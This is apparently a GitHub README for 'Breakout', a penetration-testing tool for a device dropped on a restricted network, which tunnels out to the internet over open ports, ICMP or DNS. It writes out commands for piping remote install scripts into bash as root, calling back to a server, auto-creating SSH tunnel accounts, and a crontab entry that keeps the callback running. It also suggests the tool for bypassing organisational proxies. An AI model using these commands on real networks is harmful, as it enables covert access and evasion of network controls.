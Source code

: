 # Breakout 
![GPLv3 License](https://img.shields.io/badge/License-GPLv3-red.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)

Breakout was built to allow a device to get access to the internet on a restricted network by trying to find an open port on the firewall, making a ICMP Tunnel or a DNS Tunnel.

This tools could be used on a device which is dropped on a client's network, then automatically attempts to breakout to the internet. If successful, the device can be remotely managed and used for reconnaissance.

Alternatively, you could use it to circumvent an organisations proxy or Wi-Fi Paywalls!

### Tested On
Ubuntu 16.04 Server

#### Disclaimer
This tool is only for academic purposes and testing under controlled environments. Do not use without obtaining proper authorisation from the network owner of the network under testing.
The author bears no responsibility for any misuse of the tool.

### Credits
The following tools are used in Breakout:
* [icmptunnel](https://github.com/jamesbarlow/icmptunnel) implementation by James Barlow.
* [iodine](https://github.com/yarrick/iodine) implementation by Erik Ekman.

### Notes
Running in aggressive can cause and IPS to kick in so use this as a last resort.

#### Usage
To get a list of all options and switches use:

```sh
sudo python breakout.py -h
```

#### Examples
Find paths to breakout to the internet.
```sh
sudo python breakout.py
```
Callback to server on the internet.
```sh
sudo python breakout.py -c 1.2.3.4
```
Use aggressive mode.
```sh
sudo python breakout.py -a
```
Auto callback to server with DNS Tunnel details.
```
sudo python breakout.py -c 1.2.3.4 -p breakout -n tunnel.mywebsite.com -t
```

## Installation
Breakout is installed by running the following commands in your terminal.

### On Server

```sh
sudo bash -c "$(wget https://raw.githubusercontent.com/robinlennox/breakout/master/lib/setup/install_server.sh -O -)"
```

### On Client
```sh
sudo bash -c "$(wget https://raw.githubusercontent.com/robinlennox/breakout/master/lib/setup/install_client.sh -O -)"
```

### Setup Auto Tunnel
The following will automatically setup a unique account and SSH keys on both the client and the server waiting for the callback which will be used to create the tunnel automatically.
```sh
wget https://raw.githubusercontent.com/robinlennox/breakout/master/lib/setup/install_client.sh -O install_client.sh; sudo bash install_client.sh <CALLBACK_USER>@<CALLBACK_IP> <CALLBACK_PORT> "<DROP_LOCATION>"; rm install_client.sh
```
An example would be:
```sh
wget https://raw.githubusercontent.com/robinlennox/breakout/master/lib/setup/install_client.sh -O install_client.sh; sudo bash install_client.sh root@1.2.3.4 22 "Dropped at Office 123"; rm install_client.sh
```

### Autorun on client
If you want breakout to autorun, set the command you use to create the tunnel to crontab. An example command is below:
```sh
echo "*/1 * * * * root python /opt/breakout/breakout.py -c 1.2.3.4 -p breakout -n tunnel.mywebsite.com -t > /dev/null 2>&1" | sudo tee -a /etc/crontab
```

### Setting up DNS Tunnel
Two DNS Records need to be created. It doesn't matter about the sames, however the FQDN which the NS resolves to much match the A record name, in this instance tunnel.

```
iodine      IN  NS  tunnel.mywebsite.com.
tunnel      IN  A   1.2.3.4
```

### Speed of Tunnels
This is based of a quick test I performed over Wifi.
#### No Tunnel
* Speed around 12.2Mbps Down and 4Mbps Up.

#### ICMP Tunnel
* Speed around 350kBits Down and 20kBits Up.  (Can watch 240p Youtube video)

#### DNS Tunnel 
* Using RAW Mode - speed around 1.5MBits Down and 0.5MBits Up. (Can watch 720p Youtube video)
* Not using RAW mode - speed around 15kBits Down and 3kBits Up. (Can just use ssh.. just)
